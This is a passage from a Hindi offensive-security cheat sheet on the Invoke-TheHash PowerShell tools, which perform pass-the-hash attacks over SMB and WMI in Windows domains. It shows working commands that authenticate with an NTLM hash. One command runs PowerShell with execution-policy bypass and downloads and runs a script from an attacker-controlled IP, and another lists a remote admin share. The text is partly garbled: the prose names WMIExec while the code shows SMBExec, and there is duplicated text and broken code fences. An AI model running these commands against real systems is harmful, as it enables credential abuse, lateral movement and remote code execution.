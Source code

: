 इस उदाहरण में, हम विंडोज सिस्टम 192.168.1.100 पर एनटीएलएम एक्सेक्यूशन शुरू करने के लिए `Invoke-WMIExec` कमांड का उपयोग कर रहे हैं। यहां, `Administrator` उपयोगकर्ता नाम और `P@ssw0rd` पासवर्ड क्रेडेंशियल्स के रूप में उपयोग हो रहे हैं।
```
Invoke-SMBExec -Target dcorp-mgmt.my.domain.local -Domain my.domain.local -Username username -Hash b38ff50264b74508085d82c69794a4d8 -Command 'powershell -ep bypass -Command "iex(iwr http://172.16.100.114:8080/pc.ps1 -UseBasicParsing)"' -verbose
```
#### इन्वोक-एसएमबीक्लाइंट

```powershell
Invoke-SMBClient -Target <target> -Username <username> -Password <password> -Command <command>
```

यह आदेश एक विशिष्ट उपयोगकर्ता क्रेडेंशियल का उपयोग करके एक SMB क्लाइंट के रूप में विशिष्ट लक्ष्य के साथ संचार स्थापित करता है। यह आपको SMB सर्वर के साथ फ़ाइल संचार, फ़ाइल डाउनलोड और अन्य संचार कार्रवाई करने की अनुमति देता है। आपको लक्ष्य के लिए उपयोगकर्ता नाम, पासवर्ड और आदेश की आवश्यकता होती है।
```
Invoke-SMBClient -Domain dollarcorp.moneycorp.local -Username svcadmin -Hash b38ff50264b74508085d82c69794a4d8 [-Action Recurse] -Source \\dcorp-mgmt.my.domain.local\C$\ -verbose
```
#### इन्वोक-एसएमबीईनम

```plaintext
Invoke-SMBEnum is a PowerShell script that can be used to enumerate information from SMB services. It can be used to gather information such as user accounts, shares, and sessions from remote SMB servers.

Usage:
Invoke-SMBEnum -Target <target> [-Port <port>] [-Credential <credential>] [-Verbose]

Parameters:
- Target: The IP address or hostname of the target SMB server.
- Port: The port number on which the SMB service is running (default is 445).
- Credential: The credentials to use for authentication (optional).
- Verbose: Enable verbose output (optional).

Example:
Invoke-SMBEnum -Target 192.168.1.100 -Credential (Get-Credential)
```

इन्वोक-एसएमबीईनम एक पावरशेल स्क्रिप्ट है जिसका उपयोग एसएमबी सेवाओं से जानकारी निरूपित करने के लिए किया जा सकता है। यह दूरस्थ एसएमबी सर्वर से उपयोगकर्ता खाते, साझा और सत्र जैसी जानकारी इकट्ठा करने के लिए उपयोग किया जा सकता है।

उपयोग:
Invoke-SMBEnum -Target <target> [-Port <port>] [-Credential <credential>] [-Verbose]

पैरामीटर:
- Target: लक्षित एसएमबी सर्वर का आईपी पता या होस्टनाम।
- Port: एसएमबी सेवा चल रही है उस पोर्ट नंबर (डिफ़ॉल्ट 445)।
- Credential: प्रमाणीकरण के लिए उपयोग करने के लिए क्रेडेंशियल (वैकल्पिक)।
- Verbose: वर्बोस आउटपुट सक्षम करें (वैकल्पिक)।

उदाहरण:
Invoke-SMBEnum -Target 192.168.1.100 -Credential (Get-Credential)
```
```
Invoke-SMBEnum -Domain dollarcorp.moneycorp.local -Username svcadmin -Hash b38ff50264b74508085d82c69794a4d8 -Target dcorp-mgmt.dollarcorp.moneycorp.local -verbose
```
#### Invoke-TheHash

यह फ़ंक्शन **अन्य सभी** का **मिश्रण है**। आप **कई होस्ट** को **पास कर सकते हैं**, किसी को **छोड़ सकते हैं** और आपको उपयोग करने के लिए **विकल्प** का **चयन** कर सकते हैं (_SMBExec, WMIExec, SMBClient, SMBEnum_)। यदि आप **SMBExec** और **WMIExec** में से **किसी भी** का चयन करते हैं लेकिन आप **कोई** _**Command**_ पैरामीटर नहीं देते हैं, तो यह केवल यह **जांचेगा** कि क्या आपके पास **पर्याप्त अनुमतियाँ** हैं।
```